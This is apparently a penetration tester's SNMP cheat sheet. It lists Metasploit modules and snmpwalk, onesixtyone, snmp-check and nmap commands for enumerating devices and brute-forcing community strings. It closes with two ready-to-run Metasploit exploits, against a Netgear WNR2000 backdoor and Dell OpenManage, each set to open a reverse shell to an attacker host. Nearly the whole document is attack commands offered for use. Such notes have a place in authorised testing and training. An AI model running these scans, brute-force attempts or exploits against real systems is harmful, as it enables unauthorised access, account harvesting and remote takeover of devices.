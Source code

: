 # SNMP (upd)

## Enumeration
- SNMP 1,2 and 2c traffic is unencrypted
- Community String = Password
	- (RO) for GET is "public"
	- (RW) for SET is "private"

### Metasploit

##### snmp_enum
```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS [IP]
set RPORT 161
set COMMUNITY public
run
```

##### snmp_enumusers
```bash
use auxiliary/scanner/snmp/snmp_enumusers
set RHOSTS [IP]
set RPORT 161
set COMMUNITY public
run
```

##### snmp_enumshares
```bash
use auxiliary/scanner/snmp/snmp_enumshares
set RHOSTS [IP]
set RPORT 161
set COMMUNITY public
run
```

##### snmp_login
```bash
use auxiliary/scanner/snmp/snmp_login
set RHOSTS [IP]
set RPORT 161
set COMMUNITY_FILE /usr/share/seclists/Discovery/SNMP/snmp-comm.txt
run
```

##### snmp_enumsoftware
```bash
use auxiliary/scanner/snmp/snmp_enumsoftware
set RHOSTS [IP]
set RPORT 161
set COMMUNITY public
run
```

### Manual Tools

##### SNMPWALK Common OIDs
- 1.3.6.1.2.1.25.1.6.0 System Processes 
- 1.3.6.1.2.1.25.4.2.1.2 Running Programs 
- 1.3.6.1.2.1.25.4.2.1.4 Processes Path 
- 1.3.6.1.2.1.25.2.3.1.4 Storage Units 
- 1.3.6.1.2.1.25.6.3.1.2 Software Name 
- 1.3.6.1.4.1.77.1.2.25 User Accounts 
- 1.3.6.1.2.1.6.13.1.3 TCP Local Ports 
- 1.3.6.1.2.1.1.5 Hostnames 
- 1.3.6.1.4.1.77.1.4.2 Domain Name 
- 1.3.6.1.4.1.77.1.2.27 Share Information
##### snmpwalk (general SNMP enumeration)
```bash
snmpwalk -v 2c -c public [IP]
```

##### snmpwalk (specific OID)
```bash
snmpwalk -v 2c -c public [IP] 1.3.6.1.2.1.1
```

##### snmp-check
```bash
snmp-check [IP]
```
```bash
snmp-check -c public -v 1 [IP]
```

##### onesixtyone (community string brute-force)
```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp-comm.txt [IP]
```

#### NMap

##### Enumeration
```bash
nmap [IP] -p 161,162 -sU --open -vvv -o [OUTPUT_FILE]

```

##### Enumeration + Scripts
```bash
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes,snmp-info [IP]
```


---
---


## Exploitation

### Metasploit

##### netgear_wnr2000_snmp_backdoor
```bash
use exploit/linux/snmp/netgear_wnr2000_snmp_backdoor
set RHOSTS [IP]
set RPORT 161
set PAYLOAD linux/mipsbe/shell_reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```

##### dell_openmanage_exec
```bash
use exploit/linux/snmp/dell_openmanage_exec
set RHOSTS [IP]
set RPORT 161
set COMMUNITY public
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```
